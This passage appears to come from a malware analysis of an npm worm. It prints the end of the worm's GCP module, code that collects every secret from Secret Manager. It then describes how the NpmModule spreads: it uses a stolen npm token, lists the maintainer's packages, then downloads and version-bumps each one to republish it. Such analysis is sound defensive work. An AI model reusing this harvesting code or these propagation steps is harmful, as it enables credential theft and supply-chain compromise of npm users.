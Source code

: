 ```
        secretId: secretId,
        payload: payload,
        version: response.name?.split("/").pop() || version
      };
    } catch (error) {
      return null;
    }
  }

  async getAllSecretValues() {
    try {
      const secrets = await this.listSecrets();
      const allSecrets = [];

      for (const secret of secrets) {
        const secretValue = await this.getSecretValue(secret.secretId);
        if (secretValue) {
          allSecrets.push(secretValue);
        }
      }

      return allSecrets;
    } catch (error) {
      return [];
    }
  }
}

module.exports = { GCPModule };
```

##### NpmModule

Finally, we reach the last and most crucial module for the worm's propagation behavior: the NpmModule. The module's main() calls the functions:

- validateToken(): Logs into the npm user account and returns the username.
- getPackagesByMaintainer(): Retrieves all packages that the compromised user account maintains, along with other relevant package information.
- updatePackage(): This malicious function is then called for each maintained package discovered.

<img src="/static/NPM/image-25.png" alt="drawing" width="1000"/>

<img src="/static/NPM/image-26.png" alt="drawing" width="1000"/>

The updatePackage() function begins by checking if the tar utility is available on the operating system. It then proceeds to download the target package maintained by the user.

<img src="/static/NPM/image-27.png" alt="drawing" width="1000"/>

Then the package is extracted, and its version is incremented in the package.json file to prepare for publishing a new version.
